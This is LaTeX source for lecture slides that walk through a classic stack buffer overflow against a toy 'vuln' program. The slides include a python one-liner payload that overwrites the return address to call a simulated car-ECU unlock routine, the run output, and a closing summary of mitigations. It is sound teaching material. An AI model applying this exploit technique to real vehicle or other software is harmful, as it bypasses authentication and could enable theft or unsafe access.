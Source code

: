 \begin{frame}[fragile]{Step 4: Build the Payload and Fire}
\begin{lstlisting}[language=bash]
$ ./vuln
unlock_ecu() is at address: 0x401196   # the program tells us

$ ./vuln $(python3 -c 'import sys;
    sys.stdout.buffer.write(b"A"*16 + b"\x96\x11\x40")')
\end{lstlisting}
  \begin{itemize}
    \item 16 filler bytes, then \texttt{unlock\_ecu()}'s address in little-endian (low byte first: \texttt{96 11 40}).
    \item We only write the three non-zero bytes. \texttt{strcpy}'s own \texttt{NUL} terminator supplies the zero high bytes of the address, so the payload has no \texttt{NUL} and passes cleanly as an argument.
  \end{itemize}
\end{frame}

\begin{frame}[fragile]{Step 5: Watch It Run}
\begin{lstlisting}[language=bash]
$ ./exploit.sh
unlock_ecu() = 0x401196 , offset = 16 bytes

  >> [ECU] SECURITY ACCESS GRANTED  (no key was checked)
  >> Immobilizer: OFF  Doors: UNLOCKED  Engine start: ENABLED

Segmentation fault
\end{lstlisting}
  \begin{itemize}
    \item That banner is the proof: \texttt{unlock\_ecu()} ran, the car ``granted access'' with no key, because we overwrote the return address, not because any code called it.
    \item The crash right after is expected: we jumped into \texttt{unlock\_ecu()} but never set up a clean way for it to return. The banner printed \emph{first} -- that's what matters.
  \end{itemize}
\end{frame}

\begin{frame}{Step 6: What Just Happened, in One Sentence}
  \begin{alertblock}{}
    An attacker who controls input copied into a fixed stack buffer controls where the program's execution goes next, including into code paths that were never meant to be reachable.
  \end{alertblock}
  \begin{itemize}
    \item On a real ECU, \texttt{unlock\_ecu()} stands in for a privileged routine, a calibration function or a debug backdoor, that should sit behind an authentication check this bug walks straight past.
    \item This is exactly why Input Validation sits at the top of the 7PK taxonomy, and why memory-safe languages like Rust and hardware mitigations (stack canaries, ASLR, NX/DEP, Pointer Authentication) exist. More on that next.
  \end{itemize}
\end{frame}

